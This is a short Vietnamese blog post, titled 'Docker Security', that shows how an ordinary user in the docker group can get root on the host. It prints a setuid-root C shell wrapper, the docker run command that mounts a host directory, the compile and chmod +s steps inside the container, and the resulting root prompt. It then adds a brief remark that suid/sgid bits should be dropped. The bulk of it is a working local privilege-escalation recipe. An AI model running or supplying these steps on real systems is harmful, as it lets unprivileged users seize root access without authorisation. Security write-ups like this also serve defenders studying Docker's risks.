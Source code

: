 ```yaml
---
layout: post
title: "Docker Security"
date: 2015-11-06 14:55:50
comments: true
catergories: jekyll update
---
```

Hôm nay tác giả đọc về docker, chợt nghĩ dùng docker để get root với một
user thường, và tác giả giả lặp hành động đó như sau

# suid
Khi set suid một tập tin cho phép chạy với user owner nó bởi một user
khác, tất cả các tập tin shell script hiện tại đều bị drop suid do đó ta 
chọn một file C thay thế.

ta dùng đoạn code sau:

{% highlight c startinline %}
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid( 0 );
    system( "/bin/bash" );
    return 0;
 }

{% endhighlight %}

# docker

Docker mặc định chạy với user root hoặc user trong Dockerfile. Ta
tạo một container với lệnh sau
{% highlight bash startinline %}
docker run -v /home/dragon/Git/pacman/lib/libalpm:/mnt/lib --rm -it
jessie /bin/bash
{% endhighlight %}

trong docker:
{% highlight c startinline %}
gcc -o test test.c

chmod +s test && chmod +x test

exit
./test
[root@firewall libalpm]#
{% endhighlight %}

Tới đây ta có xuất hiện vấn đề rằng một user thông thường sử dụng docker
sẽ dẫn đến security có thể get root, nhưng dùng docker với root cũng
không khá gì hơn.

Docker cho phép sử dụng -u option để override USER trong Dockerfile. Tới
đây, ta thấy cần phải có cơ chế drop hoàn toàn suid/sgid khi exit khỏi
container. Docker giữ nguyên cả uid của owner cho file và directory
trong docker cho volume. Như vậy việc get root thông qua docker rất dễ
dàng, cách tốt nhất là drop toàn bộ suid/sgid cho file thuộc container.
